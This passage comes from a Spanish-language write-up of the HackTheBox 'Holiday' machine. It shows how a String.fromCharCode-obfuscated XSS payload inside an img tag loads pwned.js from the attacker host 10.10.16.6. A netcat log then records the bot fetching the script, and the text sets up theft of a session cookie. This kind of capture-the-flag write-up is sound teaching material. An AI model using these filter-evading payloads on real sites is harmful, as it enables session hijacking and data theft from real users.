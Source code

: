 De toda la secuencia que daba problemas para ser interpretada, la expreso en decimal con python

```null
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> cadena = """document.write('<script src="http://10.10.16.6/pwned.js"></script>');"""
>>> for character in cadena:
...     print(ord(character))
```

El nuevo payload sería el siguiente

```null
<img src="asd><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,54,46,54,47,112,119,110,101,100,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59));</script>">
```

Ahora si me pongo en escucha con netcat si que recibo la petición pero esta vez no a través de la etiqueta img si no la script

```null
nc -nlvp 80
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.25.
Ncat: Connection from 10.10.10.25:49258.
GET /pwned.js HTTP/1.1
Accept: */*
Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.16.6
```

Está buscando el script pwned.js así que voy a crearlo

Si quiero ver mi cookie de sesión desde una consola interactiva de javascript en la página web, no me la reporta, por lo que tengo que encontrar una forma alternativa de extraerla. En ocasiones, existe un campo oculto en el código fuente.

<img src="/writeups/assets/img/Holiday-htb/29.png" alt="">
